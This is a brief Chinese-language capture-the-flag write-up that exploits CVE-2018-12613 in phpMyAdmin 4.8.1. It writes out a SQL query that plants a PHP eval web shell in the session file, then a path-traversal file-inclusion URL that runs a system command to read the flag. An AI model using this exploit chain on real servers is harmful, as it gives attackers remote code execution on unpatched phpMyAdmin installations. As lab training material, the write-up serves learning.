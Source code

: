 robots.txt

```
User-agent: *
Disallow: phpinfo.php
```

phpinfo 没看出来什么, 倒是看一半的时候想着会不会有 phpmyadmin

访问 /phpmyadmin

![](assets/202208252036677-170074459625555.png)

test 用户, 读写文件都不行, 不过发现 phpmyadmin 的版本才只有 4.8.1

网上搜了一下相关的漏洞

[https://www.cnblogs.com/liliyuanshangcao/p/13815242.html](https://www.cnblogs.com/liliyuanshangcao/p/13815242.html)

我用的是 CVE-2018-12613

首先将 sql 查询写入 session

```
select '<?php eval($_REQUEST[1]);?>';
```

然后包含文件, session id 就是 cookie 中 phpMyAdmin 的值

```
http://9125f90e-533c-4fa5-9158-a49652793cd7.node4.buuoj.cn:81/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_83jpjerdqkvmrn2t4nhv3r1j5n&1=system('cat /flag');
```
